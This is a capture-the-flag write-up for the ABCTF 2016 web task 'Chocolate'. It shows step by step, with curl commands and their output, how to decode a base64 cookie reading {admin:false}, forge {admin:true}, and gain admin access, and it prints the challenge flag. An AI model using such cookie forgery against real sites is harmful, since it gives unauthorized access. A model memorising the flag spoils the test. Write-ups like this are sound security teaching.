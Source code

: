 _[<<< Return to ABCTF 2016 tasks and writeups](/abctf-2016)_
# Chocolate

>If you could become admin you would get a flag. [Link](http://yrmyzscnvh.abctf.xyz/web2/)

The website says that we are not admin, let's see why.

![Screenshot from the website yrmyzscnvh.abctf.xyz/web3](chocolate.png)

```console
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/

HTTP/1.1 200 OK
[...cut...]
X-Powered-By: PHP/5.5.9-1ubuntu4.17
Set-Cookie: coookie=e2FkbWluOmZhbHNlfQ%3D%3D
[...cut...]

<html>
[...cut...]
You're not an admin. Please leave this site.
[...cut...]
</html>
```

It seems that the coookie (with three 'o') plays a key role in this challenge.

```console
root@blinils:~/abctf-2016# alias urldecode='python -c "import sys, urllib as ul; \
> print ul.unquote_plus(sys.argv[1])"'
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D
e2FkbWluOmZhbHNlfQ==
root@blinils:~/abctf-2016# urldecode e2FkbWluOmZhbHNlfQ%3D%3D | base64 -d
{admin:false}
```

Indeed we need to modify the cookie in order to have the flag.

```console
root@blinils:~/abctf-2016# echo -n {admin:true} | base64
e2FkbWluOnRydWV9
root@blinils:~/abctf-2016# curl -D- http://yrmyzscnvh.abctf.xyz/web3/ -H 'Cookie: coookie=e2FkbWluOnRydWV9'
<html>
[...cut...]
Wow! You're an admin, maybe. Well anyway, here is your flag, ABCTF{don't_trust_th3_coooki3}
[...cut...]
</html>
```
